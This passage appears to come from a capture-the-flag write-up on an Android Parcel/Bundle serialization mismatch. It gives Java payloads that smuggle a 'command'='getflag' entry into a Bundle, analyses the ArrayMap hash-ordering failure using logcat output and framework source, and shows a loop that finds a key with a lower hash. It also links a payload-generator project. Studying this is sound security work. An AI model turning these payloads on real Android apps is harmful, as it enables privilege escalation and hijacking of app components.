 This is the payload2:
```java 
a.writeString("\7\0command\0\0\0\7\0getflag");
a.writeInt(0);//fake_type
a.writeString("");//fake_value
```


For validating my suppose, I use payload3:
``` java
a.writeString("\7\0command\0\0\0\7\0getflag\0\0");
a.writeInt(0);//fake_type
a.writeString("1");//fake_value
```
The bundle created by this payload should be the same as the bundle created by payload1 except `length`.
Yes, it is.
But `Receiver3` refuse the bundle and raise a exception.
I check it and find the order changed:
`'\7\0command...getflag\0\0'='1', Message, 'command'='gotflag'`
It means that the payload is correct but it covered `'command'='gotflag'`.

And there is a warning in logcat:
>>W/ArrayMap: New hash -1841832101 is before end of array hash -1212575282 at index 1 key ��command��������getflag����

So the question is Bundle use Arraymap, whose order is decisided by hash of key.
We change the key, so the hash changed.
It is lower than the hash of key of Message.
We don't care it before.
Here is the source:

```java
    public void append(K key, V value) {
        int index = mSize;
        final int hash = key == null ? 0
                : (mIdentityHashCode ? System.identityHashCode(key) : key.hashCode());
        if (index >= mHashes.length) {
            throw new IllegalStateException("Array is full");
        }
        if (index > 0 && mHashes[index-1] > hash) {
            RuntimeException e = new RuntimeException("here");
            e.fillInStackTrace();
            Log.w(TAG, "New hash " + hash
                    + " is before end of array hash " + mHashes[index-1]
                    + " at index " + index + " key " + key, e);
            put(key, value);
            return;
        }
```

So I think pwn the vulnerability, the value of hash is important.
The value of hash of key is `-1841832101`, so we just need to find a key with lower hash.
``` java
        String key = "mismatch";
        while(key.hashCode()>=-1841832101){
            key += ".";
        }
        a.writeString(key); // key of Message object

```

[This](./gen_payload.zip) is a project of AndroidStudio which can generate payload.